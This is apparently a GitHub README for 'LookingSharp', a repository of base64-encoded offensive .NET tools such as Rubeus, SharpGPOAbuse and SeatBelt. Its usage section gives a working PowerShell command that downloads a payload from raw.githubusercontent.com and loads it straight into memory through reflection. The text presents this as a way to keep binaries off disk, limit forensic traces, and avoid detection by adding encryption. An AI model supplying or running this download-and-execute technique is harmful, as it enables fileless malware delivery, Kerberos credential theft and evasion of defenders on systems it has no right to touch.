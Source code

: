 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading. For this to work the host has to be able to access githubusercontent.com. The reason for adding the Powershell v1.0 is because syswow64 lets you run 32 bit system executables from 64 bit code. Sysnative lets you run 64 bit system executables from 32 bit code.

# Tools currently available:
- ProcessManager
- SharpGPOAbuse
- Rubeus
- UrbanBishop
- SharpStay
- SeatBelt

# Usage:
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/txt/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

The above removes steps of downloading the binary and converting it into Assembly. Removes the binary from going on-disk and straight into memory. Operationally its a little bit cleaner on system forensics - If network capture is enabled on the environment the technique can be identified. You can add some sort of encryption to avoid detection.

*Disclaimer: Whatever is done with the tools in this repository are only liable with the offending operator(s).*

